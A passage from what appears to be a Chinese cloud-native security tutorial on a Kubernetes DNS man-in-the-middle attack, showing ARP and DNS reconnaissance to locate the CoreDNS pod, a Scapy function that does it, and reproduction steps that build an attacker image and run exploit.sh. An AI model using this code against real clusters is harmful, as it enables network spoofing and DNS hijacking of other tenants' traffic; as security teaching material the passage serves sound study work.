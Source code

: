 然后直接查询 ARP 缓存，获得网桥 MAC 地址。如果没有，可以先向网桥发送一个 ARP 请求：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>arp -n<br>``` |

**其次是 Core DNS Pod** 的 IP 和 MAC 地址。结合背最知识部分 DNS 内容可知。pod 内部仅仅能拿到一个 kube-dns 服务的 IP，通常是 10.96.0.10。但是，如果攻击者 pod 向该服务发送一个 DNS 查询请求，实际上是服务背后的 Core DNS Pod 回复 DNS 响应的（经过 DNAT 处理，目的地改为 CoreDNS Pod)。而 DNS 响应又是一个 UDP 报文，因此我们可以从中提取到 CoreDNS Pod 的 MAC 地址。但是，DNS 响应又会被进行 SNAT 处理，其中的 IP 地址被重新替换为 kube-dns 服务 IP 10.96.0.10。所以，以上步骤只能让攻击者拿到 CoreDNS Pod 的 MAC 地址。

所以，攻击者可以向整个子网的每个 IP 发出 ARP 请求，收集它们的 MAC 地址，然后与前面获得的 CoreDNS Pod 的 MAC 地址进行比对，如果一致，则说明对应 IP 即为 CoreDNS Pod 的 IP。

相关代码如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>``` | ```python<br>def get_coredns_pod_mac_ip(kube_dns_svc_ip, self_ip, verbose):<br>    mac = srp1(Ether() / IP(dst=kube_dns_svc_ip) /<br>               UDP(dport=53) / DNS(rd=1, qd=DNSQR()), verbose=verbose).src<br>    answers, _ = srp(Ether(dst="ff:ff:ff:ff:ff:ff") /<br>                     ARP(pdst="{}/24".format(self_ip)), timeout=4, verbose=verbose)<br>    for answer in answers:<br>        if answer[1].src == mac:<br>            return mac, answer[1][ARP].psrc<br><br>    return None, None<br>``` |

### [](#44-%E5%A4%8D%E7%8E%B0)4.4 复现

代码：[云原生网络攻击](https://github.com/Metarget/cloud-native-security-book/tree/main/code/0405-%e4%ba%91%e5%8e%9f%e7%94%9f%e7%bd%91%e7%bb%9c%e6%94%bb%e5%87%bb)

模拟构建攻击者镜像：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>docker build -t k8s_dns_mitm:1.0 .<br>``` |

使用 exploit.sh 分别部署 attacker 和 victim pod：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>./exploit.sh<br>``` |
